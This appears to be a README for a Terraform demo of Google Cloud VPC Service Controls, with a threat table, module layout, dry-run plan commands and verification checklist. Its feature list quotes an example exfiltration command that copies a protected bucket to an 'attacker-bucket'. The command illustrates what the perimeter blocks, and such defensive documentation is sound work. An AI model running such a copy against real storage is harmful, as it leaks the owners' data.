

# VPC Service Controls: The Ultimate Data Defense

This module demonstrates the implementation of a **Service Perimeter**, the most powerful tool in Google Cloud to prevent data exfiltration.

## 📊 Architecture (Mermaid Diagram)



## 🛡️ Threat Model (STRIDE Analysis)

| Threat Category | Mitigation in this Demo |
| :--- | :--- |
| **Information Disclosure** | VPC SC prevents data reading from outside the perimeter, even with valid IAM keys. |
| **Tampering** | Blocks writing/modifying data from unauthorized networks. |
| **Information Exfiltration** | Prevents copying data from a protected project to an external project (even if the user has access to both). |

## 🚀 Key Features
1.  **Context-Based Access**: API access is allowed only from trusted networks (Corporate Public IP).
2.  **Data Exfiltration Prevention**: Blocks commands like `gsutil cp gs://secure-bucket gs://attacker-bucket`.
3.  **Dry-Run First Rollout**: Desired perimeter configuration can be evaluated in `spec` before enforcement.
4.  **Ingress/Egress Exceptions**: Explicit exceptions can be modeled for trusted identities, projects, services, and methods.

## 🛠️ Implementation (Terraform)
The code is located in the `terraform/` folder. It defines:
- `google_access_context_manager_access_policy`: Optional access policy creation for isolated tests.
- `google_access_context_manager_access_level`: Definition of the trusted context.
- `google_access_context_manager_service_perimeter`: Definition of the secure zone with dry-run and enforced modes.

Terraform baseline:

```text
terraform/
  versions.tf
  variables.tf
  main.tf
  outputs.tf
  terraform.tfvars.example
examples/
  minimal/
```

Local contract check:

```bash
python3 cloud-security/gcp/network-security/vpc-service-controls/tests/verify_terraform_contract.py
```

Minimal dry-run plan path:

```bash
cd cloud-security/gcp/network-security/vpc-service-controls/examples/minimal
terraform init
terraform plan \
  -var="organization_id=123456789012" \
  -var="access_policy_name=accessPolicies/123456789012" \
  -var="protected_project_number=111111111111"
```

Keep `enforcement_mode = "dry-run"` until denied/allowed access tests and rollback are reviewed.

## ✅ Verification
Attempting to access BigQuery from an IP address outside the defined range will result in an error:
`VPC Service Controls: Request is prohibited by organization's policy.`

Expected evidence:

- dry-run perimeter spec in Terraform plan,
- denied request from untrusted context,
- allowed request from trusted context,
- denied copy from protected project to untrusted project,
- approved egress exception proof if configured,
- rollback or cleanup proof.

---
*Reference: [GCP VPC Service Controls Overview](https://cloud.google.com/vpc-service-controls/docs/overview)*
